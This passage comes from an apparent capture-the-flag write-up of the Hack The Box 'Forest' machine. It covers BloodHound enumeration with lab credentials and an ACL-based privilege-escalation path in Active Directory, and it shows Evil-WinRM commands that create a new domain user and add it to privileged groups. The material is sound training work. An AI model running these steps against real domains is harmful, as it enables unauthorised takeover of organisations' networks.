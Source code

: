 ![image.png]({{ '/assets/img/Forest/image.png' | relative_url }})

### Active Directory Enumeration with BloodHound
Using bloodhound-python to gather and visualize AD structure and relationships remotely, I ran the following command:

```bash
bloodhound-python -d htb.local -u svc-alfresco -p s3rvice -gc forest.htb.local -c all -ns 10.10.10.161
INFO: Found AD domain: htb.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 34 users
INFO: Found 76 groups
INFO: Found 2 gpos
INFO: Found 15 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: EXCH01.htb.local
INFO: Querying computer: FOREST.htb.local
INFO: Done in 00M 49S

```
The command enumerates users, groups, and ACLs in the domain, providing insight into the AD structure.
![image.png]({{ '/assets/img/Forest/image%201.png' | relative_url }})
**Key Findings:** The Account Operators group has GenericAll rights over the Exchange Windows Permissions group, which, in turn, has WriteDACL permissions on the domain object HTB.LOCAL. This escalation path can potentially allow privilege elevation by modifying the DACL on the domain object.

## Privilege Escalation
Given the GenericAll rights on Exchange Windows Permissions, I used the following steps to escalate privileges:
1. **Creating a New User and Adding to Privileged Groups**:
   Since **Account Operators** have rights to create and modify users, I created a new user **binary_exec** and added it to **Exchange Windows Permissions** and **Remote Management Users** groups:

   ```bash
   *Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> net user binary_exec Pass123! /add /domain
   *Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> net group "Exchange Windows Permissions" binary_exec /add
   *Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> net localgroup "Remote Management Users" binary_exec /add
   ```
2. **Confirming Privilege Escalation**:
   Added **binary_exec** to **Remote Management Users** to enable remote login capabilities like WinRM.
![image.png]({{ '/assets/img/Forest/image%202.png' | relative_url }})
